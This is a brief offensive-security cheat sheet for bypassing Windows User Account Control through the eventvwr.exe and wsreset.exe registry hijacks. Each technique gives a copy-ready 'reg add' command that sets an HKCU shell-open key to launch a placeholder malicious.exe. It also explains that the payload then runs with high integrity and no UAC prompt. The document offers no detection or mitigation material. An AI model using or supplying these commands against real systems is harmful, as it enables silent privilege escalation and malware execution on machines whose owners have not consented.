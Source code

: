 # User Access Controls Bypass
1. eventvwr.exe
https://lolbas-project.github.io/lolbas/Binaries/Eventvwr/#uac%20bypass

Prep: 
```
reg add HKCU\Software\Classes\mscfile\shell\open\command /d %tmp%\malicious.exe /f
```
During startup, eventvwr.exe checks the registry value HKCU\Software\Classes\mscfile\shell\open\command for the location of mmc.exe, which is used to open the eventvwr.msc saved console file. If the location of another binary or script is added to this registry value, it will be executed as a high-integrity process without a UAC prompt being displayed to the user.
```
HKCU\Software\Classes\mscfile\shell\open\command
```

2. wsreset.exe
https://lolbas-project.github.io/lolbas/Binaries/Wsreset/#uac%20bypass

Prep: 
```
reg add HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command /d %tmp%\malicious.exe /f
```
During startup, wsreset.exe checks the registry value HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command for the command to run. Binary will be executed as a high-integrity process without a UAC prompt being displayed to the user.
```
HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command
```



